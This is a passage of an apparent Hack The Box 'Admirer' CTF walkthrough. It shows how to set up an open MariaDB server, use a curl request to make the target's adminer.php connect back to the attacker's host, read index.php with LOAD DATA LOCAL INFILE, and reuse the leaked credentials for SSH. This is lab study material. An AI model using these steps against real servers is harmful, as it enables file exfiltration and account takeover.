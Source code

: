 ```shell 
GRANT ALL PRIVILEGES ON *.* TO 'user'@'%';  
  
#create test-table where all the data will land  
create table test(data VARCHAR(255));  
  
  
# enable remote access to the DB  
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf  
change bind-address from 127.0.0.1 to 0.0.0.0  
  
# restart mysql to activate the changes  
sudo systemctl restart mysql
```

After the local DB is up and running, we need to make the victim-server connect back to us.

![htb-admirer-2](/img/htb-admirer-2.png)

if the connction fails, run a curl command, and then visit the login-page again.

```shell
curl "http://10.10.10.187/utility-scripts/adminer.php?server=10.10.14.16&username=user&db=admirer"
```

![htb-admirer-3](/img/htb-admirer-3.png)

time to play around with the database and see what type of information that can be extracted.

```sql
load data local infile '../index.php'  
into table test  
fields terminated by "/n"
```

looking at the table, some of the values could be exported.

```shell
INSERT INTO `test` (`data`) VALUES  
(' $servername = \"localhost\";'),  
(' $username = \"waldo\";'),  
(' $password = \"&<h5b~yK3F#{PaPB&dA}{H>\";'),  
(' $dbname = \"admirerdb\";');
```

where waldo's SSH password might just be: `&<h5b~yK3F#{PaPB&dA}{H>`

## Privilege Escalation 

user access is gained with: 
```shell
ssh waldo@admirer.htb
password: &<h5b~yK3F#{PaPB&dA}{H>
```

![htb-admirer-5](/img/htb-admirer-5.png)
